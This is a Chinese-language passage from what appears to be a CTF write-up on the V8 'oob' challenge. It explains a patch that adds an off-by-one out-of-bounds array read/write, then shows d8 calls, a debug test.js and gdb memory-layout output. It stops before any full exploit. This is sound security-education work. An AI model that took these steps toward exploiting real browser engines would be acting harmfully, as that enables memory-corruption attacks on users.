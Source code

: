 从上面看diff的增加的主要逻辑在第二部分。

大致意思就是：获取oob函数的参数，当参数个数为1时，读取数组第length个元素的内容，否则将第length个元素改写为args输入参数中的第二个参数，注意上述参数个数是C++中的参数长度。

我们都知道C++中成员函数的第一个参数必定是this指针，因此上述逻辑转换为JavaScript中的对应逻辑就是，当oob函数的参数为空时，返回数组对象第length个元素内容；当oob函数参数个数不为0时，就将第一个参数写入到数组中的第length个元素位置。

我们可以在v8中尝试调用该函数：

```assembly
$ ./d8 
V8 version 7.5.0 (candidate)
d8> var a = [1, 2, 3,4];
undefined
d8> a.oob();
3.20020652532357e-310
d8> a.oob(1);
undefined
```

可以看到当oob函数为空时打印了一个数值，但这个数值是什么，目前还不清楚。

理解了diff的内容后，就要仔细分析漏洞点了。假设定义一个数组对象长度为length，那么访问数组元素的下标就应该是0到length-1，但diff中增加的oob函数却可以读取和改写第length个元素。很显然，这里存在一个针对数组对象的off by one越界读写漏洞。

我们利用gdb结合d8调试一下。编写test.js如下

```assembly
var a = [1, 2, 3, 1.1];
%DebugPrint(a);
%SystemBreak();

var data = a.oob();
console.log("[*] oob return data:" + data.toString());
%SystemBreak();

a.oob(2);
%SystemBreak();
```

第一次SystemBreak触发断点时，v8打印了数组对象a的内存地址。此时，利用job和telescope命令查看对象和elements的内存布局，如下所示：

```assembly
gdb-peda$ r --allow-natives-syntax ./test.js
Starting program: /home/yqw/Documents/v8/v8/out/x64_startctf.release/d8 --allow-natives-syntax ./test.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7fcc55415640 (LWP 5518)]
0x0a4cc2e8de49 <JSArray[4]>
gdb-peda$ job 0x0a4cc2e8de49
0xa4cc2e8de49: [JSArray]
 - map: 0x2fb394882ed9 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x2dc5a50d1111 <JSArray[0]>
 - elements: 0x0a4cc2e8de19 <FixedDoubleArray[4]> [PACKED_DOUBLE_ELEMENTS]
 - length: 4
 - properties: 0x1f00435c0c71 <FixedArray[0]> {
    #length: 0x3d84565401a9 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x0a4cc2e8de19 <FixedDoubleArray[4]> {
           0: 1
           1: 2
           2: 3
           3: 1.1
 }
gdb-peda$ telescope 0x0a4cc2e8de49-1
0000| 0xa4cc2e8de48 --> 0x2fb394882ed9 --> 0x400001f00435c01 
0008| 0xa4cc2e8de50 --> 0x1f00435c0c71 --> 0x1f00435c08 
0016| 0xa4cc2e8de58 --> 0xa4cc2e8de19 --> 0x1f00435c14 
```